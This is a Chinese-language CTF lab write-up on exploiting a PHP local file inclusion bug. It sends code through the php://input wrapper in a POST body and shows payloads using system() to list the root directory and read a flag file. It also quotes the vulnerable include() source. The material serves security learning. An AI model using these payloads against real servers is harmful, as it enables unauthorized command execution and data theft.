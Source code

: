 在没有shell脚本的情况下访问 flag ，第一时间想到了 上传文件漏洞，上传shell.php，奈何没有上传点只得作罢，换个思路：

我们是否可以用 burpsuite 来进行抓包，在BP上面改包，添加上我们想要的shell.php的内容，但问题来到了，这时候我们添加的 内容是以 post数据流存在的，没有以代码的方式执行

幸运的是 php是一个功能强大的语言

在php伪协议中存在php://input
php://input

作用：可用于查看源码，同时是要查看未压缩文件的只读流。在post请求中能查看请求的原始数据，并将post请求中的post数据当作php代码执行。（只读流是说只能进行读操作的数据）

条件：allow_url_fopen=off/on；allow_url_include=on

点击题中的 phpinfor 查看php情况，检查allow_url_include是否为on
![image-20240121154439535](E:\学习资料\网安\笔记\笔记截图\image-20240121154439535.png)

然后，我们可以确定 本题考查就是 php://input

接着就可以bp抓包，更改GET为POST在后面添加我们的shell

```
POST /?file=php://input
<?php system('ls /'); ?>
```

![image-20240121155328738](E:\学习资料\网安\笔记\笔记截图\image-20240121155328738.png)

发现flag文件继续访问

```
<?php system('cat /flag_31432'); ?>
```

![image-20240121155906038](E:\学习资料\网安\笔记\笔记截图\image-20240121155906038.png)

**远程包含**

打开环境映入眼帘的源代码

```php+HTML
<?php
error_reporting(0);
if (isset($_GET['file'])) {
    if (!strpos($_GET["file"], "flag")) {
        include $_GET["file"];
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?>
<hr>
i don't have shell, how to get flag?<br>
<a href="phpinfo.php">phpinfo</a>
```

点击phpinfo()发现可以用php://input
